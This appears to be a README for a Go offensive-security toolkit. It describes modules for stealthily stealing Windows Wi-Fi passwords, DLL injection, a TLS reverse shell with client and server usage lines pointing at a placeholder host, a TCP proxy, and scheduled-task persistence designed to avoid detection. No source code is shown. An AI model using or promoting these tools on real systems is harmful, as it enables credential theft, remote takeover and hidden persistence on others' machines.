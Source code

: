 # Mal(icous)Go

## wifi pwds

Retrieve WLAN passwords from Windows. Uses native calls in Win32 API rather than executing `netsh wlan ...` as a command, this approach is more stealthy!

## inject

Injects a DLL into a remote process uses the classic on disk / `LoadLibrary` approach so should be used primarily for testing as it is not opsec safe.

Usage:

~~~
inject_x64.exe <dll_path> <pid>
~~~

## rshell

Simple reverse shell implementation client supports comms over TLS using the `tlsserver.go` server code.

### client

_Certificate is embedded into the compiled binary, update to a newly created cert._

~~~
client -tls -port 4444 <host>
~~~

### server

~~~
tlsserver -port 4444 <cert> <key>
~~~

## proxy

Simple TCP proxy

~~~
proxy <port> <host:port>
~~~

## persistence

A PoC to test adding a scheduled task into windows via COM/OLE rather than the noisey approach of using `schtasks.exe`. Please adjust to your needs!